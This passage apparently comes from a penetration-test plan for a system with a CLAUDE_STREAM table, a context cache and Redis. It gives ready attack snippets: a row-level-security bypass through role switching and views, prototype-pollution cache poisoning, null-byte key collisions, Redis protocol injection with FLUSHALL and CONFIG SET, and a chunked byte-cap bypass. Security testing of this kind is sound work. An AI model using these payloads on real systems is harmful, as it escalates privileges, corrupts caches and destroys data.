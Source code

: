 ```javascript
  }));
}
await Promise.all(promises);
```

#### RLS Policy Bypass
```sql
-- Try to circumvent row-level security
SET ROLE = 'ACCOUNTADMIN';
SELECT * FROM CLAUDE_STREAM;

-- Use system functions
SELECT GET_DDL('TABLE', 'CLAUDE_STREAM');

-- Access through views
CREATE VIEW bypass_view AS 
  SELECT * FROM CLAUDE_STREAM;
```

### 4. Cache Poisoning

#### Context Cache Corruption
```javascript
// Insert malicious data into cache
const poison = {
  customer_id: "victim",
  context: {
    __proto__: { isAdmin: true },
    constructor: { prototype: { isAdmin: true } }
  }
};

// Cache key collision
const collision1 = { customer_id: "test\u0000admin" };
const collision2 = { customer_id: "test\u0000user" };
```

#### Redis Command Injection
```javascript
// If Redis protocol is exposed
const redisCommands = [
  "\r\nFLUSHALL\r\n",
  "\r\nCONFIG SET dir /tmp\r\n",
  "\r\nSAVE\r\n",
  "\r\nQUIT\r\n"
];
```

### 5. Byte Cap Bypass

#### Chunked Encoding Attack
```javascript
// Send data in chunks to bypass limits
const chunks = [];
for (let i = 0; i < 100; i++) {
  chunks.push(new Array(1000000).join("x"));
}
// Send chunks separately but reference same activity_id
```
